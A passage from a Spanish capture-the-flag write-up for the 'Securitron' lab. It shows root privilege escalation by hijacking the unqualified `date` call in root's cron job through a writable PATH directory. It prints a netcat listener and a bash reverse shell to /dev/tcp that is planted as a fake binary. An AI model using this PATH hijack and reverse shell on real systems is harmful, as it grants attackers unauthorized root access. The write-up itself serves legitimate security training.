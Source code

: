 ```bash
fi

# Mantener solo los dos últimos backups
/bin/ls -t $CARPETA_BACKUP | /usr/bin/sed -e '1,2d' | /usr/bin/xargs -d '\n' /bin/rm -f
```

Parece que el fichero crea un backup de la BD en una carpeta a la que no tenemos permisos. 

Todos los binarios que se utilizan dentro del fichero `backup_bd.sh` y el propio fichero son llamados con paths absolutos, impidiendo una suplantación de binario con ellos. En cambio, el parámetro enviado al fichero utiliza el binario `date` sin una dirección absoluta.

![date no absolute](/assets/securitron/image-36.png)

Si comprobamos dónde se encuentra el fichero `date`, se encuentra en `/usr/bin/date`,

![alt text](/assets/securitron/image-37.png)

y como el PATH del crontab de root está configurado de la siguiente forma:

`PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/home/securitybot/.local/bin:/usr/bin:/sbin:/bin`

podemos crear un fichero `date` en la carpeta `/home/securitybot/.local/bin` que se encuentra antes que la carpeta `/usr/bin`, haciendo que la tarea programada del usuario root ejecute nuestro fichero suplantado.

Nos ponemos a escuchar con netcat en el puerto 12345.

```bash
nc -lvnp 12345
```

Creamos el fichero `/home/securitybot/.local/bin/date` en el servidor con una revshell y le damos permisos de ejecución:

```bash
echo "bash -c '/bin/bash -i >& /dev/tcp/10.0.2.15/12345 0>&1'" > /home/securitybot/.local/bin/date
chmod +x /home/securitybot/.local/bin/date
```

Esperamos un minuto y obtenemos una shell con privilegios del usuario root y leemos el fichero de la flag.

![root flag](/assets/securitron/image-38.png)

Felicidades, ya has completado el CTF Securitron.
